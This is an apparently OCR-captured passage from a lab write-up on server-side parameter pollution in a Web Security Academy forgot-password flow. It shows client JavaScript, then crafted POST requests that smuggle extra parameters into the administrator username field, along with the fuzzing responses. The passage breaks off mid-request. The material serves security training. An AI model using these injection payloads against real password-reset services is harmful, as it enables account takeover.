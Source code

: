 ```js
                    forgotPasswordForm.style.display = "none";
                }
            })
            .catch(err => {
                forgotPasswordError.textContent = "Invalid username";
            });
    } catch (error) {
        console.error("Unexpected Error:", error);
    }
}

const displayMsg = (e) => {
    e.preventDefault();
    validateInputsAndCreateMsg(e);
};

forgotPwdReady(() => {
    const queryString = window.location.search;
    const urlParams = new URLSearchParams(queryString);
    const resetToken = urlParams.get('reset-token');
    if (resetToken)
    {
        window.location.href = `/forgot-password?reset_token=${resetToken}`;
    }
    else
    {
        const forgotPasswordBtn = document.getElementById("forgot-password-btn");
        forgotPasswordBtn.addEventListener("click", displayMsg);
    }
});
```
</detail>

This request indicate that the back-end may have interpreted &foo=bar as a separate parameter, instead of part of the username. :
```
POST /forgot-password HTTP/2
Host: 0a960003036333d38490ef4500870095.web-security-academy.net
Cookie: session=Klz9MkBvSewQmAqXzsYNASMlnwBbdKih
Content-Length: 70
Content-Type: x-www-form-urlencoded

csrf=...&username=administrator%26foo=bar
```
```json
{"error": "Parameter is not supported."}
```
Use the **Server-side variable names** payload list. I can fuff a valid type which is **field**
```
POST /forgot-password HTTP/2
Host: 0a960003036333d38490ef4500870095.web-security-academy.net
Cookie: session=Klz9MkBvSewQmAqXzsYNASMlnwBbdKih
Content-Length: 72
Content-Type: x-www-form-urlencoded

csrf=...&username=administrator%26field=bar
```
```json
{"type":"ClientError","code":400,"error":"Invalid field."}
```
Continue fuzzing the param, the above list return 4 abnormal response: **username, email, type, error**. Example:
```
POST /forgot-password HTTP/2
Host: 0a960003036333d38490ef4500870095.web-security-academy.net
```